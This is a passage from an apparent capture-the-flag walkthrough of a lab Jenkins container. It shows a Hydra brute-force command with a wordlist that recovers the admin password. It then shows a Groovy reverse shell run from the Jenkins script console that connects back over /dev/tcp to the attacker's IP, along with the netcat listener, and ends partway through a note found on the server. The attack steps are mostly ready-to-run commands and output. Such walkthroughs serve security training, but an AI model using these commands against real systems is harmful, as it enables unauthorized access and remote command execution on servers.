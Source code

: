 ### After tunneling we can access the docer container by opening 
```
http://localhost:6767/
```

### And here we see the docker container is showing jenkins login page 
### So by using the default creds admin:password it doesn't login 
### So let's try to bruteforce the login page using hydra
```
$ hydra -l admin -P /home/sig/Downloads/rockyou.txt -s 6767 127.0.0.1 http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password'
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-20 17:30:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://127.0.0.1:6767/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password
[6767][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-20 17:31:37

```

### And BOOOOOOMMMMMMM!!!!! We got the creds
```
admin:spongebob
```

### Now lets go to "manage jenkins" and then go to "script console" and run our java(groovy script) reverse shell i.e
### On attacker machine
```
nc -lnvp 5555
```
### On the script console 
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.9.53.152/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### And yeeeeeeessssssss!!!!!! We are on the server and here we find a note i.e
```
jenkins@jenkins:/opt$ ls 
ls
note.txt
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.
```